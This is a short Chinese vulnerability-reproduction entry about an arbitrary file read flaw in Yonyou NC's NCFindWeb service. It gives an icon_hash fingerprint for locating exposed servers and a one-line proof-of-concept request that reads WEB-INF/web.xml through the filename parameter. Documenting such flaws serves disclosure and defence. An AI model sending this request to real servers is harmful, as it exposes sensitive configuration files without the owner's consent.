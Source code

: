 # 用友 NC NCFindWeb 任意文件读取漏洞

## 漏洞描述

用友NC存在任意文件读取漏洞，攻击者通过漏洞可读取服务器敏感文件

## 漏洞影响

<a-checkbox checked>用友NC</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1085941792"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628351304159-f00b4a4f-a104-40f4-a8bf-1ea00cf72c98.png)

验证POC

```
 /NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml
```

![img](../../../.vuepress/public/img/1628351371286-e2898425-5e54-438a-b5eb-4f20eed3636b.png)